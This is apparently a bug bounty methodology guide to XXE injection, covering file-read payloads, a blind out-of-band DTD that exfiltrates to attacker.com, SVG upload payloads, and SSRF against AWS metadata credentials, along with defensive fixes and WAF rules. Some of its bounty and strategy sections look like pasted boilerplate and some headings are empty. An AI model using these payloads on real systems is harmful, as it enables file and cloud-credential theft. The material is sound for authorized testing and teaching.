


# XML External Entity (XXE) Injection

## When to Use
- When the application accepts XML input (e.g., `Content-Type: application/xml` or `text/xml`).
- When uploading XML-based files (DOCX, XLSX, SVG, PDF).
- When altering JSON payloads to XML to see if the server processes it (Content-Type Smuggling).
- To read sensitive local files (e.g., `/etc/passwd`, `C:\Windows\win.ini`).
- To escalate into Server-Side Request Forgery (SSRF) using the XML parser to fetch internal URLs.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Input Detection & Content-Type Fuzzing

```http
# Concept: Check if the application natively accepts XML. If it accepts JSON, try
# changing the Content-Type to application/xml and sending equivalent XML.

# Original JSON Request:
POST /api/authenticate HTTP/1.1
Content-Type: application/json
{"username": "admin"}

# Modified XML Request:
POST /api/authenticate HTTP/1.1
Content-Type: application/xml
<?xml version="1.0" encoding="UTF-8"?>
<username>admin</username>
```

### Phase 2: Inband XXE (Direct File Read)

```xml
# Concept: Define an external entity that points to a local file, and reference it 
# inside a parameter that gets reflected back in the HTTP response.

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>

# Expected Output: The response contains the contents of /etc/passwd instead of the productId.
```

### Phase 3: Out-of-Band (OOB) / Blind XXE

```xml
# Concept: If the application does NOT reflect the entity's value in the response,
# force the XML parser to send the file contents to your external server via HTTP/DNS.

# 1. Host a malicious DTD (Document Type Definition) on your server (http://attacker.com/evil.dtd):
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfiltrate;

# 2. Send the exploit payload triggering the remote DTD:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>
<stockCheck><productId>1</productId></stockCheck>

# 3. Monitor your web server logs. You should see a request like:
# GET /?data=WIN-SERVER-01 HTTP/1.1
```

### Phase 4: XXE via File Uploads (SVG / DOCX)

```xml
# Concept: Modern file formats like SVG (images) and DOCX/XLSX (Office documents)
# are essentially ZIP-compressed XML files.

# SVG Image XXE Payload:
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
# Upload this as avatar.svg. When the server tries to process or rasterize the image, it parses the XXE.

# DOCX XXE:
# 1. Unzip legitimate.docx
# 2. Edit word/document.xml to include the XXE payload.
# 3. Zip back into malicious.docx and upload.
```

### Phase 5: XXE to SSRF

```xml
# Concept: Use the SYSTEM entity to force the XML parser to make HTTP requests
# to internal metadata endpoints or administration panels.

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

#### Decision Point 🔀



### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Disable External Entities**: The definitive fix is configuring the XML parser to explicitly disallow external entities and DTDs. 
  - Python (lxml): `XMLParser(resolve_entities=False)`
  - Java: `factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);`
- **WAF Rules**: Block inbound requests containing `<!ENTITY` or `SYSTEM "file://`.
- **Content-Type Validation**: Enforce strict matching on Content-Type headers. Do not blindly parse JSON requests as XML just because the header was modified.

## Key Concepts
| Concept | Description |
|---------|-------------|
| XXE | XML External Entity; an attack against an application that parses XML input containing a reference to an external entity |
| DTD | Document Type Definition; defines the structure and the legal elements and attributes of an XML document |
| OOB | Out-Of-Band; stealing data via alternative channels (like DNS or outbound HTTP) when the direct response is masked |

## Output Format
```
Bug Bounty Report: XXE leading to Local File Read
=================================================
Vulnerability: XML External Entity (XXE) Injection
Severity: High (CVSS 8.6)
Target: POST /api/soap/billing

Description:
The SOAP API endpoint implements an insecure XML parser that processes external DTD declarations. By injecting a malicious external entity, an attacker can coerce the backend server into reading arbitrary local files and reflecting their contents in the HTTP response.

Reproduction Steps:
1. Intercept the checkout request to `/api/soap/billing`.
2. Modify the XML payload to include standard entity declarations:
   `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
3. Place `&xxe;` within the `<customer_id>` node.
4. Send the request.

Impact:
Full disclosure of local server configuration, source code, and potential escalation to internal network scanning (SSRF) or remote code execution via PHP expect wrapper.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (SSRF)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **HackerOne** | $25,000 | (Undisclosed) | Critical SSRF in PDF generation → AWS metadata → temp IAM creds | 2023 |
| **Lark Technologies** | $5,000 | (Undisclosed) | Full-read SSRF via Docs import-as-docs feature | 2024 |
| **Apache (IBB)** | $4,920 | (Undisclosed) | CVE-2024-38472: SSRF on Windows leaking NTLM hashes | 2024 |
| **U.S. Dept of Defense** | $4,000 | (Undisclosed) | SSRF in FAST PDF generator → internal network access | 2024 |
| **Slack** | $4,000 | (Undisclosed) | SSRF via Office file thumbnail generation | 2024 |
| **HackerOne** | $1,250 | (Undisclosed) | SSRF in webhook functionality — IPv6→IPv4 anti-SSRF bypass | 2024 |
| **GitHub Enterprise** | (Disclosed) | Orange Tsai | SSRF→RCE chain on GitHub Enterprise Server | 2023 |

**Key Lesson**: The HackerOne $25,000 SSRF proves PDF generators are gold mines. Any feature
that fetches URLs server-side (webhooks, image imports, link previews, PDF renderers) is an 
SSRF target. Orange Tsai's GitHub chain shows SSRF→RCE is the ultimate escalation path.

**What got $25K vs $1.25K:**
- $25K: SSRF accessed AWS metadata, extracted real IAM credentials → cloud compromise
- $1.25K: SSRF confirmed via IPv6 bypass but no demonstrated data access
- **Lesson: Always escalate SSRF to cloud metadata theft or internal service access**

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- PortSwigger: [XXE Injection](https://portswigger.net/web-security/xxe)
- PayloadAllTheThings: [XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
